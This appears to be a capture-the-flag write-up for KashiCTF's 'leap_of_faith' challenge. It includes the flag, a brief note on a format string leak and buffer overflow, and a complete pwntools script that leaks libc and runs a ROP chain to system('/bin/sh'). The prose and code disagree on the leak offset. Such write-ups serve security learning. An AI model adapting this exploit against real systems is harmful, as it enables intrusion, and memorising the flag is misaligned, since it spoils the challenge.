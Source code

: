 ```yaml
---
title: "leap_of_faith"
category: Binary Exploitation
tags: 
draft: true
completedDuringEvent: true
submitted: true
flag: KashiCTF{did_some_trolling_right_there_vSVU9bzY}
---
```

> ROP ROP all the way

---

In the troll function there is format string vulnerability

Use it to get __libc_start_main + 133 address
Format string sent: %37$p

There is bof in main function

```py
from pwn import *

binary = './chall/vuln'
libc = ELF("./chall/libc.so.6")
ld = ELF("./chall/ld-linux-x86-64.so.2")

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
# r = process([ld.path, binary], env={"LD_PRELOAD": libc.path})
r = remote('kashictf.iitbhucybersec.in', 51612)

print(f'[*] {binary} base @ {hex(e.address)}')
print(f'[*] {libc.path} base @ {hex(libc.address)}')

r.recvuntil(b'What do you want? ')
r.send(f"%17$p")
r.send(b"\x0A")
r.recvuntil(b'Lmao not giving you ')
leak = int(r.recvline().strip(), 16)
print(f'[*] __libc_start_main_impl @ {hex(leak)}')

libc_base = leak - (0x7ffff7e0924a - 0x7ffff7de2000)
print(f'[*] libc base @ {hex(libc_base)}')

libc.address = libc_base

system = libc.sym['system']
binsh = next(libc.search(b'/bin/sh'))

rop = ROP(libc)
POP_RDI = rop.find_gadget(['pop rdi', 'ret'])[0]
RET = rop.find_gadget(['ret'])[0]

print(f'POP_RDI: {hex(POP_RDI)}')
print(f'RET: {hex(RET)}')

r.recvuntil(b'Wanna Cry about that? ')
r.sendline(flat([
    cyclic(32),
    cyclic(8),
    POP_RDI,
    binsh,
    p64(RET),
    system,
]))

r.interactive()
```
